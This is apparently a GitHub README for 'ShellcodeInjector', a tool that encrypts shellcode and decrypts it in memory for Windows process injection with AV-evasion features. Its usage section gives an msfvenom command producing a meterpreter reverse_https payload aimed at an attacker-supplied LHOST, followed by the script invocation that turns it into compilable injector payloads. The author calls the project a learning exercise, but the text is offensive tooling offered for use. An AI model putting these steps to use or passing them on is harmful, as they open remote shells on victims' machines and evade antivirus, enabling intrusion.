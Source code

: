 ShellcodeInjector
===
ShellcodeInjector takes a shellcode as input, encrypts it and then decrypts it in memory before performing process injection.

The idea of the project is to create process injection templates based on a list of [Windows API functions](https://malapi.io/). 

This is just an excercise for me for learning C# and C++. 

Installation
---
* For compiling C++ code, install [mingw64](https://sourceforge.net/projects/mingw-w64/files/Toolchains%20targetting%20Win64/Personal%20Builds/mingw-builds/8.1.0/threads-posix/seh/x86_64-8.1.0-release-posix-seh-rt_v6-rev0.7z) and udpate the System Variable PATH
* For compiling C# you can use `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe`

Usage
---
First, you need to obtain a shellcode, for example from metasploit,:
```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<your-IP> LPORT=4444 -f raw > /tmp/msf64_reverse_https.raw
```

Then, you can generate the source code payloads
```
root@kali:~# python3 shellcode_encoder.py /tmp/msf64_reverse_https.raw RandomK3y domain.local
```
This will generate source code payloads and will save them in the `results` folder. Then use [compile64.bat](results/compile64.bat) to compile the source code payloads.



Credits
---
ShellcodeInjector is a Python v3 version of [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper) with additional process injection and AV evasion capabilities. 